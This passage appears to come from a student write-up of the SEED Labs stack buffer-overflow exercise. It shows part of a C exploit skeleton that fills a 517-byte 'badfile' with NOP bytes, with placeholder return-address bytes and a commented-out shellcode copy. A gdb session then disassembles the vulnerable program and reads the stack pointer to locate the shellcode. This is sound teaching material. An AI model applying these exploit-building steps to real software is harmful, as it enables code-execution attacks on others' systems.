 ```c

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */
    /* strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??"); */
    /*strcpy(buffer+100,shellcode); */

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

To beginnig the attack, we need the address of shellcode.

```sh
seed@ubuntu:~/Desktop$ gdb --quiet stack
Reading symbols from /home/seed/Desktop/stack...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484a3 <+0>:	    push   %ebp
   0x080484a4 <+1>:	    mov    %esp,%ebp
   0x080484a6 <+3>:	    and    $0xfffffff0,%esp
   0x080484a9 <+6>:	    sub    $0x220,%esp
   0x080484af <+12>:	mov    $0x80485f0,%edx
   0x080484b4 <+17>:	mov $0x80485f2,%eax
   0x080484b9 <+22>:	mov    %edx,0x4(%esp)
   0x080484bd <+26>:	mov    %eax,(%esp)
   0x080484c0 <+29>:	call   0x80483c0 <fopen@plt>
   0x080484c5 <+34>:	mov    %eax,0x21c(%esp)
   0x080484cc <+41>:	lea    0x17(%esp),%eax
   0x080484d0 <+45>:	mov    0x21c(%esp),%edx
   0x080484d7 <+52>:	mov    %edx,0xc(%esp)
   0x080484db <+56>:	movl   $0x205,0x8(%esp)
   0x080484e3 <+64>:	movl   $0x1,0x4(%esp)
   0x080484eb <+72>:	mov    %eax,(%esp)
   0x080484ee <+75>:	call   0x8048370 <fread@plt>
   0x080484f3 <+80>:	lea    0x17(%esp),%eax
   0x080484f7 <+84>:	mov    %eax,(%esp)
   0x080484fa <+87>:	call   0x8048484 <bof>
   0x080484ff <+92>:	movl   $0x80485fa,(%esp)
   0x08048506 <+99>:	call   0x8048390 <puts@plt>
   0x0804850b <+104>:	mov    $0x1,%eax
   0x08048510 <+109>:	leave  
   0x08048511 <+110>:	ret    
End of assembler dump.
(gdb) b *0x080484af
Breakpoint 1 at 0x80484af
(gdb) r
Starting program: /home/seed/Desktop/stack

Breakpoint 1, 0x080484af in main ()
(gdb) i r $esp
esp            0xbffff150	0xbffff150
```
